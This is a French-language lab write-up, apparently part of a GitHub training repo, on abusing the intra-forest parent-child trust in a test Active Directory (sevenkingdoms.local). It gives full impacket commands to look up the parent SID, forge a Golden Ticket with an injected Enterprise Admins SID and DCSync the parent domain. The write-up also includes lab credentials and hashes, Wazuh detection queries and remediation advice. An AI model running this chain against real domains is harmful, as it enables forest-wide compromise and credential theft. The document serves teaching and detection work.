

# ⚔️ Attaque 12 — Abus de trust inter-domaine (Child → Parent)

| | |
|---|---|
| **Catégorie** | Domain Trusts / Privilege Escalation |
| **MITRE ATT&CK** | [T1482](https://attack.mitre.org/techniques/T1482/) · [T1134.005](https://attack.mitre.org/techniques/T1134/005/) (SID History) |
| **Fiche théorique** | [`../../docs/06-domain-trusts/`](../../docs/) |
| **Cible** | `sevenkingdoms.local` (PARENT · kingslanding · 192.168.56.10) via `north` (ENFANT) |
| **Compte attaquant** | `hacker` (**forgé**) — à partir du krbtgt de north |
| **Outil** | impacket — `lookupsid.py`, `ticketer.py`, `secretsdump.py` |
| **Statut détection Wazuh** | 🟡 Anomalie détectable (compte forgé visible) → Phase 6 |

---

## 1. 🧠 Description
Le lab a deux domaines dans **une même forêt** : `sevenkingdoms.local` (**parent**, racine) et `north.sevenkingdoms.local` (**enfant**), reliés par un **trust parent-enfant** automatique.

Un ticket Kerberos transporte les **SID des groupes** de l'utilisateur, dont un champ **SID History**. Entre deux forêts, un **SID filtering** supprime les SID "étrangers". **Mais à l'intérieur d'une même forêt, ce filtrage est désactivé** (par conception).

**La faille :** en tant qu'admin de l'**enfant** (on a le hash `krbtgt` de north volé au [DCSync](06-dcsync.md)), on **forge un Golden Ticket** et on y **injecte le SID du groupe `Enterprise Admins` du parent** (`...-519`). Le parent, ne filtrant pas les SID intra-forêt, **accepte** → on devient **Enterprise Admin de toute la forêt**.

## 2. 🎯 Prérequis
- Le **hash krbtgt du domaine enfant** (`36e4a10f...`, volé au DCSync de north).
- Le **SID du domaine enfant** (`S-1-5-21-3723572328-3115330327-3463884463`).
- Le **SID du domaine parent** (récupéré ici via `lookupsid`).

## 3. 💻 Exécution

### a) Récupérer le SID du domaine parent
```bash
lookupsid.py sevenkingdoms.local/tywin.lannister:powerkingftw135@192.168.56.10 0 | grep -i "Domain SID"
```
→ `Domain SID is: S-1-5-21-2914566735-1426177666-2979308302`. On y ajoute `-519` (Enterprise Admins).

### b) Forger le ticket avec le SID Enterprise Admins injecté
```bash
ticketer.py -nthash 36e4a10f1c1e434b3726ff67dd815f9e \
  -domain-sid S-1-5-21-3723572328-3115330327-3463884463 \
  -domain north.sevenkingdoms.local \
  -extra-sid S-1-5-21-2914566735-1426177666-2979308302-519 \
  hacker
```
| Élément | Rôle |
|---|---|
| `-nthash 36e4a10f...` | krbtgt de **north** (sceau de l'enfant) |
| `-domain-sid ...463` | SID du domaine **north** (enfant) |
| `-extra-sid ...302-519` | 🚨 **SID Enterprise Admins du parent injecté** (SID History) |

→ crée `hacker.ccache`.


### c) Utiliser le ticket pour DCSync le domaine PARENT
```bash
echo "192.168.56.10 kingslanding.sevenkingdoms.local sevenkingdoms.local" | sudo tee -a /etc/hosts
export KRB5CCNAME=hacker.ccache
secretsdump.py -k -no-pass -just-dc north.sevenkingdoms.local/hacker@kingslanding.sevenkingdoms.local
```
> ⚠️ **Point clé :** le realm client est **`north.sevenkingdoms.local`** (là où vit le ticket forgé), pas `sevenkingdoms.local`. Kerberos fait alors le **renvoi cross-realm** via le trust. Se tromper de realm → `KDC_ERR_C_PRINCIPAL_UNKNOWN`.



## 4. 📤 Résultat
`hacker` (compte enfant **inexistant**) dump **tous les secrets du domaine parent** : `Administrator:500:...:c66d72021a2d4744409969a581a1705e`, `krbtgt`, tous les comptes, `KINGSLANDING$`, `NORTH$`. Le hash de l'Administrator parent est **identique** à celui obtenu par [ADCS ESC1](08-adcs-esc1.md) → **même Enterprise Admin atteint par 2 chemins différents**. **Contrôle total de la forêt.** 👑

## 5. 🛡️ Détection dans Wazuh — 🟡 anomalie

| Recherche (DQL) | Résultat | Lecture |
|---|---|---|
| `data.win.system.eventID:4662` | **0 hit** | réplication (DCSync) non auditée → **angle mort** |
| `data.win.eventdata.targetUserName:hacker` | **2 hits** 🚩 | **le compte forgé apparaît** sur le DC parent |
| `data.win.system.eventID:4769` | **56 hits** | tickets présents mais **noyés** dans le trafic normal des bots |

**L'anomalie révélatrice** (recherche b, sur kingslanding) :
- 🚩 `targetUserName: hacker` = un compte **qui n'existe pas** dans l'AD
- 🚩 `targetUserSid: ...-463-**500**` = RID 500 (Administrator) alors que le nom est `hacker` → **incohérence nom/SID**
- 🚩 `targetDomainName: NORTH...` accédant au **DC parent** (mouvement inter-domaine anormal)


**Angle mort de la réplication (recherche a) :** l'Event 4662 n'est pas audité → la réplication DCSync sur le parent est invisible.


**Le bruit des tickets (recherche c) :** 56 événements 4769, mais dominés par le trafic normal des bots — le ticket cross-realm de l'attaque y est indistinguable.


## 6. 🎓 Analyse & leçon
> Comme le [Golden Ticket](11-golden-ticket.md), l'abus de trust repose sur un ticket **cryptographiquement valide** : **aucune règle de signature ne le détecte**, et la réplication finale (4662) n'est pas auditée. Mais le ticket forgé laisse des **anomalies** : un utilisateur **inexistant**, une **incohérence nom/SID** (RID 500), un accès **inter-domaine** inhabituel.

👉 C'est le **point culminant** de la démonstration : les attaques les plus dévastatrices (compromission de forêt) sont **invisibles aux règles classiques** et ne se détectent que par **analyse comportementale / d'anomalies** — l'objet de la **Phase 6 (agent IA)** 🤖.

## 7. 🔧 Remédiation
- Protéger le hash `krbtgt` de **chaque** domaine (empêcher DCSync / vol NTDS) — un enfant compromis = forêt compromise.
- Activer l'audit **4662** (réplication) et surveiller les **comptes inexistants** / **incohérences nom-SID** dans les logons (comportemental).
- Considérer que **la frontière de sécurité est la forêt, pas le domaine** : segmenter en forêts distinctes si l'isolation est requise.

---

⬅️ Retour à l'[index des attaques](../03-attaques.md)
